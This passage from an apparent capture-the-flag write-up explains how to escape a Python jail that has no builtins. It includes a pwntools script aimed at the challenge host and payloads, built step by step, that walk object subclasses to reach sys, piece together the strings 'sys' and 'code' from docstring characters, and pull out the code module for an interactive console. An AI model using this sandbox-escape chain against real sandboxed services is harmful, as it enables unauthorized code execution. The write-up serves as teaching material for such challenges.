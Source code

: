 Now the next thing is to execute `code.InteractiveConsole().interact()`. Since we don't have builtins, we need to use `sys.modules["code"]` to locate `code` module. But where is `sys`? we can find it in `_sitebuiltins._Printer`. We can find its index just as we did for `_sitebuiltins._Helper`:

```python
from pwn import *

context(log_level = "debug")

p = remote("0.cloud.chals.io", 33618)
p.recvuntil(b">> ")
p.sendline(b"().__class__.__base__.__subclasses__()")
res = p.recvline().decode()
print("Helper", res.split(", ").index("<class '_sitebuiltins._Helper'>"))
print("Printer", res.split(", ").index("<class '_sitebuiltins._Printer'>"))
```

It is 158, so we can locate it in a similar way:

```python
>> [A:=True+True+True+True+True+True+True+True+True+True,B:=A*A,C:=A+A+A+A+A,D:=A+B+C-True,().__class__.__base__.__subclasses__()[D-True]]
[10, 100, 50, 159, <class '_sitebuiltins._Printer'>]
```

We can find `sys` in its `__init__.__globals__`:

```python
>> [A:=True+True+True+True+True+True+True+True+True+True,B:=A*A,C:=A+A+A+A+A,D:=A+B+C-True,().__class__.__base__.__subclasses__()[D-True].__init__.__globals__]
[..., {..., 'sys': <module 'sys' (built-in)>, ...}]
```

Then, we need to find two strings for `sys.modules["code"]`: `"sys"` and `"code"`. Remember we have access to `__doc__`, and we can use arbitrary characters in there:


```python
>> [A:=True+True+True+True+True+True+True+True+True+True,B:=A*A,C:=A+A+A+A+A,D:=A+B+C-True,().__class__.__base__.__subclasses__()[D].__doc__]
[10, 100, 50, 159, "Define the builtin 'help'.\n\n    This is a wrapper around pydoc.help that provides a helpful message\n    when 'help' is typed at the Python interactive prompt.\n\n    Calling help() at the Python prompt starts an interactive help session.\n    Calling help(thing) prints help for the python object 'thing'.\n    "]
>> [A:=True+True+True+True+True+True+True+True+True+True,B:=A*A,C:=A+A+A+A+A,D:=A+B+C-True,S:=().__class__.__base__.__subclasses__()[D].__doc__,S[A+A+A+C]+S[C+A-True-True]+S[A+A+A+C],S[C+A+True]+S[C+True+True]+S[C+True+True+True+True+True]+S[True]]
# the indices can be found locally via __doc__.index(ch)
[10, 100, 50, 159, "Define the builtin 'help'.\n\n    This is a wrapper around pydoc.help that provides a helpful message\n    when 'help' is typed at the Python interactive prompt.\n\n    Calling help() at the Python prompt starts an interactive help session.\n    Calling help(thing) prints help for the python object 'thing'.\n    ", 'sys', 'code']
```

Then we can call `code.InteractiveConsole().interact()`:

```python
>> [A:=True+True+True+True+True+True+True+True+True+True,B:=A*A,C:=A+A+A+A+A,D:=A+B+C-True,S:=().__class__.__base__.__subclasses__()[D].__doc__,().__class__.__base__.__subclasses__()[D-True].__init__.__globals__[S[A+A+A+C]+S[C+A-True-True]+S[A+A+A+C]].modules[S[C+A+True]+S[C+True+True]+S[C+True+True+True+True+True]+S[True]]]
[10, 100, 50, 159, "Define the builtin 'help'.\n\n    This is a wrapper around pydoc.help that provides a helpful message\n    when 'help' is typed at the Python interactive prompt.\n\n    Calling help() at the Python prompt starts an interactive help session.\n    Calling help(thing) prints help for the python object 'thing'.\n    ", <module 'code' from '/usr/local/lib/python3.12/code.py'>]
```
